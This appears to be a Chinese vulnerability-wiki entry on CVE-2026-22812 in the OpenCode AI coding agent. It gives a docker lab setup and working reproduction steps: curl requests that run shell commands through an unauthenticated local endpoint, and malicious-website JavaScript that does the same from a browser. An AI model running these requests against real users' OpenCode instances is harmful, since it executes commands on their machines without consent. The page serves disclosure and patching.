




# OpenCode 远程代码执行漏洞 CVE-2026-22812

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- localhost/浏览器跨域与公网直接访问不同
- 固定session ID需示例化
- 源码行号需固定commit
- 浏览器版本及本地网络权限需环境字段

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

OpenCode 是一个开源的 AI 编码代理工具，支持在终端、IDE 或桌面应用中使用。它兼容 75 多家大模型提供商，也内置免费模型，并强调不会存储用户的代码或上下文数据，支持多会话并行、自动加载语言服务器协议、会话链接分享等功能。

在 1.0.216 版本之前，OpenCode 会默认启动一个未经身份验证的 HTTP 服务器，允许未经授权的远程攻击者通过本地进程或宽松的 CORS 策略的网站以用户的权限执行任意 shell 命令。

参考链接：

- https://github.com/anomalyco/opencode/security/advisories/GHSA-vxw4-wv6m-9hhh

## 漏洞影响

```
Opencode < 1.0.216
```

## 环境搭建

参考 [环境配置](https://github.com/Threekiii/Awesome-POC/tree/master/base/opencode/1.0.207) ，启动一个 OpenCode 1.0.207 服务：

```shell
docker-compose up -d
```

服务启动后，访问 `http://your-ip:4096` 即可查看到 OpenCode 主页。




## 漏洞复现

OpenCode 启动时会启动一个 HTTP 服务器（默认端口 4096 及以上），且不进行身份验证。暴露的关键端点包括：

- `POST /session/<id>/shell`：执行 shell 命令 ( `server.ts:1401` )
- `POST /pty`：创建交互式终端会话（ `server.ts:267` ）
- `GET /file/content?path=`：读取任意文件 ( `server.ts:1868` )

可以通过两种途径实现远程代码执行：

- 本地利用 ：任何恶意 npm 包、脚本或被入侵的应用程序都可以以运行 OpenCode 的用户身份执行命令。
- 基于浏览器的利用（已在 Firefox 中验证） ：任何网站都可以对运行 OpenCode 的访问者执行命令。这使得恶意广告、被入侵的网站或钓鱼页面能够发起 drive-by attacks。

此处我们实现本地利用。先获取 session id：

```shell
curl -X POST http://your-ip:4096/session -H "Content-Type: application/json" -d '{}'
```




通过 `POST /session/<id>/shell` 执行 shell 命令：

```shell
curl -X POST http://your-ip:4096/session/ses_3e26e7d61ffeckbRy92ZkFjfqZ/shell -H "Content-Type: application/json" -d '{"agent": "build","command": "id && touch /tmp/awesome_poc"}'
```




可以看到，成功执行命令 `id && touch /tmp/awesome_poc`：




基于浏览器的利用 [示例](https://github.com/anomalyco/opencode/security/advisories/GHSA-vxw4-wv6m-9hhh) 如下：

```
// Malicious website JavaScript
fetch('http://127.0.0.1:4096/session', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: '{}'
})
.then(r => r.json())
.then(session => {
  fetch(`http://127.0.0.1:4096/session/${session.id}/shell`, {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({agent: 'build', command: 'id > /tmp/pwned.txt'})
  });
});
```

注意：Chrome 142 及更高版本可能会提示授予本地网络访问权限，而 Firefox 则不会。

## 漏洞修复

- 官方已发布安全补丁，请及时更新至最新版本 Opencode >= 1.0.216，下载地址： https://github.com/anomalyco/opencode/releases


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
